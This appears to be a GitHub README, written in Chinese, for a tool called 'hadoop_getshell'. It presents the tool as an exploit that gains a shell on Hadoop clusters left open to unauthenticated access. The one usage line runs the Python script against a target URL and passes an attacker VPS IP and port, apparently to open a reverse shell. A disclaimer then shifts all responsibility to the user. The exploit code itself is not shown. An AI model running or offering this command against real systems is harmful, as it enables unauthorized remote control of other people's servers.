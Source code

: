 # hadoop_getshell
Hadoop 未授权访问漏洞getshell exp

## 工具利用

python3 hadoop_getshell.py -u http://127.0.0.1:1111 -l vps_ip -p vps_port

![exp](./exp.png)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
